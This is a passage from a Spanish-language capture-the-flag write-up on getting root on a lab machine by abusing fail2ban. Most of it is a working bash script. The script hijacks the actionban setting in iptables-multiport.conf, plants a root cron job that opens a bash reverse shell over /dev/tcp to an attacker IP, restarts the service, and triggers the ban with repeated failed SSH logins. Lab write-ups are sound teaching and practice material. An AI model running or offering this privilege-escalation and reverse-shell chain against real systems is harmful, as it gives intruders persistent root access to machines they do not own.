 Ahora solo queda modificar la acción `actionban = MALICIOUS CODE`, reiniciar el servicio `fail2ban` que lo ejecutará como `root` gracias a los permisos que tenemos, luego nos logearemos por **SSH** provocando el máximo de intentos (5) para ser baneados y activar `actionban` que ejecutará nuestro comando

Para el proceso junte cada tarea en un script en `bash` que explica el proceso y te permite conseguir acceso como `root` a traves de una tarea cron inyectada:

```bash
#!/bin/bash

# Fail2ban privesc (sshd service)
# ----------------


# Remote machine
# ---------------

# actionban config file
fail2ban_rule_conf=/etc/fail2ban/action.d/iptables-multiport.conf

# check user:group permissions (root:root)
ls -l $fail2ban_rule_conf

# change user:group to writeable permisisons
cp $fail2ban_rule_conf{,.bak}
mv -f $fail2ban_rule_conf.bak $fail2ban_rule_conf

# check user:group permission (michale:michael)
ls -l $fail2ban_rule_conf

# commands to create cron process to receive privileged reverse shell
if [ -d "/tmp/.privesc" ]; then
  rm -rf "/tmp/.privesc"
fi
create_dir="mkdir /tmp/.privesc"
assing_cron="echo '* * * * * root /bin/sh /tmp/.privesc/pwned.sh' > /etc/cron.d/pwned;"
cron_script="echo \"bash -c 'bash -i >& /dev/tcp/$1/$2 0>&1'\" > /tmp/.privesc/pwned.sh;"
add_perm="chmod +x /tmp/.privesc/pwned.sh;"

# save commands in file
$create_dir
echo -e "$assing_cron\n$cron_script\n$add_perm" > /tmp/.privesc/cmd.sh
chmod +x /tmp/.privesc/cmd.sh

# change actionban to execute malicious file
sed -i 's/actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>/actionban = \/bin\/bash \/tmp\/.privesc\/cmd.sh/g' $fail2ban_rule_conf

# restart fail2ban service 
sudo /etc/init.d/fail2ban restart


# Local machine
# -------------

sleep 3
echo -e "\nMake failed ssh requests in ATTACKER machine to activate fail2ban rules (maxretry = 5)"
echo "Example: for i in \$(seq 1 10); do sshpass -p 'anything' ssh michael@10.10.11.166; done"

echo -e "\nListen on IP $1 through PORT $2 to receive the shell. (g.e nc -lvnp $2)\n"
```
